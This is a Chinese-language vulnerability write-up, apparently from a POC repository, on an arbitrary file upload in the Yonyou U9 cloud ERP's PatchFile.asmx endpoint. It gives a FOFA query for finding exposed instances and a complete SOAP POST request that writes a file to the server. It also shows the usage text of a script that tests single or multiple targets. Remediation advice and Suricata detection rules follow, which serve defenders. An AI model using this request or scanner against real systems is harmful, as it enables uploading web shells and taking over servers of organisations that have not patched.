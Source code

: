 ### 产品简介  
U9 cloud聚焦中型和中大型制造企业，全面支持业财税档一体化、设计制造一体化、计划执行一体化、营销服务一体化、项目制造一体化等数智制造场景，赋能组织变革和商业创新，融合产业互联网资源实现连接、共享、协同，助力制造企业高质量发展。  

### 漏洞概述  
用友U9 PathchFile.asmx接口处存在文件上传漏洞，恶意攻击者可能会上传shell文件获取服务器权限，造成安全隐患。  

### 指纹识别  
fofa: title=="        U9-登录    "  
![Image text](https://github.com/YUUKI4O4/POC/blob/main/Yongyou_U9_PatchFile.asmx_arbitrary_file_upload/0.png)  

### 漏洞利用  
```
poc:
POST /CS/Office/AutoUpdates/PatchFile.asmx HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 6.2; WOW64) AppleWebKit/537.36 (KHTML like Gecko) Chrome/44.0.2403.155 Safari/537.36
Connection: close
Content-Type: text/xml; charset=utf-8
  
<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <SaveFile xmlns="http://tempuri.org/">
      <binData>MTIzNDU2</binData>
      <path>./</path>
      <fileName>1.txt</fileName>
    </SaveFile>
  </soap:Body>
</soap:Envelope>

```
![Image text](https://github.com/YUUKI4O4/POC/blob/main/Yongyou_U9_PatchFile.asmx_arbitrary_file_upload/1.png)  
![Image text](https://github.com/YUUKI4O4/POC/blob/main/Yongyou_U9_PatchFile.asmx_arbitrary_file_upload/2.png)  
![Image text](https://github.com/YUUKI4O4/POC/blob/main/Yongyou_U9_PatchFile.asmx_arbitrary_file_upload/3.png)  

### 测试和利用脚本  
```
python3 Yongyou_U9_PatchFile.asmx_arbitrary_file_upload.py -h
usage: Yongyou_U9_PatchFile.asmx_arbitrary_file_upload.py [-h] [-t] [-r FILE] [-u URL]

### Yongyou U9 PatchFile.asmx arbitrary file upload. ###

options:
  -h, --help            show this help message and exit
  -t, --target_collection
                        Perform target collection
  -r FILE, --multi_objective_testing FILE
                        Perform multi-objective testing. e.g:python
                        Yongyou_U9_PatchFile.asmx_arbitrary_file_upload.py.py -r ./url.txt
  -u URL, --single_objective_testing URL
                        Perform single-objective testing. e.g:python
                        Yongyou_U9_PatchFile.asmx_arbitrary_file_upload.py.py -u http://xxx.xxx.xxx
```

### 修复建议  
1、请联系厂商进行修复。  
2、如非必要，禁止公网访问该系统。  
3、设置白名单访问。  

### Suricata rules  
```
alert http any any -> any any (msg:"Yongyou U9 PatchFile.asmx arbitrary file upload"; flow:established,to_server; flowbits:set,Yongyou_U9_PatchFile; content:"post";http_method;nocase; content:"/CS/Office/AutoUpdates/PatchFile.asmx?op=SaveFile";http_uri;fast_pattern;nocase; content:"<?xml";nocase;http_client_body;startswith; content:"<binData>";nocase;http_client_body; content:"<fileName>";nocase;http_client_body; pcre:"/<fileName>[^\.]+?\.(jsp|asp|aspx|txt|php|exe|py|dll)/Pi"; reference:url,https://github.com/YUUKI4O4/POC/tree/main/Yongyou_U9_PatchFile.asmx_arbitrary_file_upload; classtype:web-attck; metadata:created_at 2024-01-31,updated_at 2024-01-31,creater:YUUKI4O4; sid:27; rev:1;)
alert http any any -> any any (msg:"Yongyou U9 PatchFile.asmx arbitrary file upload maybe success"; flow:established,from_server; flowbits:isset,Yongyou_U9_PatchFile; content:"415";http_stat_code; reference:url,https://github.com/YUUKI4O4/POC/tree/main/Yongyou_U9_PatchFile.asmx_arbitrary_file_upload; classtype:web-attck; metadata:created_at 2024-01-31,updated_at 2024-01-31,creater:YUUKI4O4; sid:28; rev:1;)
```
